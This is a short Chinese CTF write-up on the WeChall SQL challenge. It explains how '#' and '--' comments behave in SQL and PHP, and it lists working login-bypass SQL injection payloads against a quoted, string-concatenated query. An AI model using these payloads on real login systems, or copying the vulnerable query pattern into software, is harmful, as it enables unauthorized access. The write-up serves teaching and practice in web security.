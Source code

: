 ```yaml
---
title: WeChall_SQL
date: 2022-10-06
description: 关于#和--在sql中的具体用法
category: 信息安全
tags:
  - CTF
  - Web
  - SQL
---
```

# --和#的具体用法
`#`是php和sql中的注释，而`--`仅是sql语言中的注释,`--`在使用时后面必须有一个空格
原题代码为`$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";`
```
admin' ;#                           可以
admin' #                            不可以 ,结尾没有`;`，语句错误
admin' or 1=1;#                     不可以，此时没有以admin身份登录

Admin' -- yes i can                 可以
Admin' --yes i can                  不可以，--后面没有空格
Admin' --                           不可以，--后面没有空格（后面的句子会顶上来）
Admin' -- (a space here)            可以
```
为什么`--`注释可以不用管最后的`;`呢？因为`--`只是sql中的注释语句。
此时完整的语句为`$query = "SELECT * FROM users WHERE username='Admin' -- yes i can' AND password='$password'";`
sql在查询时被注释掉了，但整个php语句没有被注释掉
 